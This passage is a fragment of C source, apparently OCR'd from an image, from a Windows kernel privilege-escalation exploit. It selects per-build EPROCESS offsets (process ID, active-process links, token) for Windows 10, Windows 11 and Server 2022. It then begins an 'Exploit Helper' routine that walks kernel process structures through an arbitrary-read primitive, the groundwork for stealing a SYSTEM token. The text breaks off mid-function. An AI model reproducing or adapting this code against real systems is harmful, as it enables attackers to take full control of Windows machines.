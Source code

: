 ```
      printf("[*] Version : %d\n", ovi.dwBuildNumber);
      if (ovi.dwBuildNumber > 26000) {
        // Win11 24H2 ??
        UNIQUEPROCESSIDOFFSET = 0x1D0;
        ACTIVEPROCESSLINTOFFSET = 0x1D8;
        TOKENOFFSET = 0x248;
        //ThreadListHeadOffset = 0x370;
        //ThreadListEntryOffset = 0x578;
        //CIDOffset = 0x508;
        ProcessOffset = 0x220;
        IrpListOffset = 0x540;
      } else if (ovi.dwBuildNumber > 22000) {
        // Win11 23H2 ??
        UNIQUEPROCESSIDOFFSET = 0x440;
        ACTIVEPROCESSLINTOFFSET = 0x448;
        TOKENOFFSET = 0x4b8;
        //ThreadListHeadOffset = 0x5e0;
        //ThreadListEntryOffset = 0x538;
        //CIDOffset = 0x4c8;
        ProcessOffset = 0x220;
        IrpListOffset = 0x500;
      } else if (ovi.dwBuildNumber <= 22000 && ovi.dwBuildNumber > 20000) {
        // Server 2022 ??
        UNIQUEPROCESSIDOFFSET = 0x440;
        ACTIVEPROCESSLINTOFFSET = 0x448;
        TOKENOFFSET = 0x4b8;
        //ThreadListHeadOffset = 0x5e0;
        //ThreadListEntryOffset = 0x538;
        //CIDOffset = 0x4c8;
        ProcessOffset = 0x220;
        IrpListOffset = 0x500;
      } else if (ovi.dwBuildNumber <= 20000 && ovi.dwBuildNumber > 19040) {
        // WIN 10, 1904X version 
        UNIQUEPROCESSIDOFFSET = 0x440;
        ACTIVEPROCESSLINTOFFSET = 0x448;
        TOKENOFFSET = 0x4b8;
        //ThreadListHeadOffset = 0x5e0;
        //ThreadListEntryOffset = 0x4e8;
        //CIDOffset = 0x478;
        ProcessOffset = 0x220;
        IrpListOffset = 0x4b0;
      } else {
        printf("Not Supported\n");
        exit(0);
      }
    }
  }
}

/********************  Exploit Helper START!!!!******************/

// Get EPROCESS for current process
ULONG64 PsGetProcessFromPid(DWORD64 pEPROCESS, DWORD pid) {
  LIST_ENTRY64 ActiveProcessLinks;

  ActiveProcessLinks.Flink = (ULONGLONG) readQWORD((DWORD64)(pEPROCESS + ACTIVEPROCESSLINTOFFSET));
  ActiveProcessLinks.Blink = (ULONGLONG) readQWORD((DWORD64)(pEPROCESS + ACTIVEPROCESSLINTOFFSET + 8));

  ULONG64 res = 0;

  while (TRUE) {
    ULONG64 UniqueProcessId = 0;
```